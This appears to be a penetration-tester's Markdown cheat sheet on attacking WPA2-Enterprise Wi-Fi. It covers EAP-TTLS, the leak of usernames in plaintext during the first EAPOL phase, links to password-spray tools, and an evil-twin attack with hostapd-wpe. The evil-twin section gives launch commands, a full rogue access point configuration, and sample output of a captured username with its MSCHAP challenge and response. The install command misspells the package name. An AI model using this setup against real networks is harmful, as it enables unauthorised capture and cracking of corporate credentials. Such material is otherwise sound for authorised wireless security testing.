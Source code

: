 #### EAP-TTLS - Tunneled TLS
EAP-Tunneled Transport Layer Security.  
Very Similar to EAP-PEAP. (But as option to use client side certificate)

1. Server authenticates with certificate
2. Client can optionally use Certificate as well

Inner authentication:
- PAP
- CHAP
- MSCHAP
- MSCHAPV2

#### Identity Privacy misconfiguration
- Absence of Identity Privacy
During 802.1x EAP negotiations, client send its identity to the authenticator before engaging in the RADIUS authentication process.  
--> EAPOL frames within the first authentication phase are not encrypted  
--> An attacker can see the AD usernames in plaintext  


#### WPA2-EAP - Password spray attack
- https://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/

#### WPA2-EAP Evil Twin Attack
##### Hostapd-WPE (Previously FreeRadius WPE)
- https://github.com/OpenSecurityResearch/hostapd-wpe
- https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html
- https://github.com/WJDigby/apd_launchpad/blob/master/apd_launchpad.py (fake certficat generation and configuration file)

Support the following EAP types for impersonation:
- EAP-FAST/MSCHAPv2 (Phase 0)
- PEAP/MSCHAPv2
- EAP-TTLS/MSCHAPv2
- EAP-TTLS/MSCHAP
- EAP-TTLS/CHAP
- EAP-TTLS/PAP
  
```
apt install hostadp-wpe
ifconfig wlan1 down
hostapd-wpe ./evilhostapd.conf

username: jdoe
    challenge: bc:87:6c:48:37:d3:92:6e
    response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

evilhostapd.conf configuration file
```
interface=wlan1
ssid=EvilCorp
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
```